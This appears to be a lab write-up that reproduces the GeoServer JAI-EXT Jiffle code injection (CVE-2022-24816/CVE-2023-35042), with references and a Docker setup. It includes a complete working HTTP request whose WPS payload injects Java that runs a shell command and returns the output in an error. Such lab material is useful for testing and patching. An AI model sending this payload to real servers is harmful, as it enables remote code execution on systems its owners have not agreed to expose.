

GeoServer Remote Code Injection caused by JAI-EXT (CVE-2022-24816/CVE-2023-35042)¶
GeoServer is an open-source software server written in Java that provides the ability to view, edit, and share geospatial data. It is designed to be a flexible, efficient solution for distributing geospatial data from a variety of sources such as Geographic Information System (GIS) databases, web-based data, and personal datasets.
GeoServer uses the Jiffle map algebra language provided by JAI-EXT, which allows efficiently execute map algebra over large images. A code injection vulnerability (CVE-2022-24816) has been found in JAI-EXT versions 1.2.21 and earlier, that allows a remote code execution to be performed by properly crafting a Jiffle invocation.
When this vulnerability affects GeoServer, it is also known as CVE-2023-35042. GeoServer versions 2.20.4, 2.19.6, and 2.18.6 and later have fixed this vulnerability by updating the JAI-EXT dependency.
References:
- https://www.synacktiv.com/publications/exploiting-cve-2022-24816-a-code-injection-in-the-jt-jiffle-extension-of-geoserver
- https://github.com/geosolutions-it/jai-ext/security/advisories/GHSA-v92f-jx6p-73rx
- https://geoserver.org/vulnerability/2022/04/11/geoserver-2-jiffle-jndi-rce.html
- https://osgeo-org.atlassian.net/browse/GEOS-10458
- https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2022/CVE-2022-24816.yaml
Vulnerable Environment¶
Execute the following command to start a GeoServer 2.17.2 server:
docker compose up -d
After the server is started, you can browse the default page of GeoServer at http://your-ip:8080/geoserver.
Exploit¶
The vulnerability exists in the WMS endpoint. An attacker can execute arbitrary Java code by sending a specially crafted request to /geoserver/wms. The request should include a malicious Jiffle expression that will be evaluated by the server.
Send a request like this to exploit the vulnerability:
POST /geoserver/wms HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/xml
Content-Length: 2191
<?xml version="1.0" encoding="UTF-8"?>
<wps:Execute version="1.0.0" service="WPS" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns="http://www.opengis.net/wps/1.0.0" xmlns:wfs="http://www.opengis.net/wfs" xmlns:wps="http://www.opengis.net/wps/1.0.0" xmlns:ows="http://www.opengis.net/ows/1.1" xmlns:gml="http://www.opengis.net/gml" xmlns:ogc="http://www.opengis.net/ogc" xmlns:wcs="http://www.opengis.net/wcs/1.1.1" xmlns:xlink="http://www.w3.org/1999/xlink" xsi:schemaLocation="http://www.opengis.net/wps/1.0.0 http://schemas.opengis.net/wps/1.0.0/wpsAll.xsd">
<ows:Identifier>ras:Jiffle</ows:Identifier>
<wps:DataInputs>
<wps:Input>
<ows:Identifier>coverage</ows:Identifier>
<wps:Data>
<wps:ComplexData mimeType="application/arcgrid"><![CDATA[ncols 720 nrows 360 xllcorner -180 yllcorner -90 cellsize 0.5 NODATA_value -9999 316]]></wps:ComplexData>
</wps:Data>
</wps:Input>
<wps:Input>
<ows:Identifier>script</ows:Identifier>
<wps:Data>
<wps:LiteralData>dest = y() - (500); // */ public class Double { public static double NaN = 0; static { try { java.io.BufferedReader reader = new java.io.BufferedReader(new java.io.InputStreamReader(java.lang.Runtime.getRuntime().exec("id").getInputStream())); String line = null; String allLines = " - "; while ((line = reader.readLine()) != null) { allLines += line; } throw new RuntimeException(allLines);} catch (java.io.IOException e) {} }} /**</wps:LiteralData>
</wps:Data>
</wps:Input>
<wps:Input>
<ows:Identifier>outputType</ows:Identifier>
<wps:Data>
<wps:LiteralData>DOUBLE</wps:LiteralData>
</wps:Data>
</wps:Input>
</wps:DataInputs>
<wps:ResponseForm>
<wps:RawDataOutput mimeType="image/tiff">
<ows:Identifier>result</ows:Identifier>
</wps:RawDataOutput>
</wps:ResponseForm>
</wps:Execute>
After sending this request, the malicious Java code embedded in the Jiffle script will be executed by the server. The command output will be captured and returned to the client within a java.lang.ExceptionInInitializerError message:
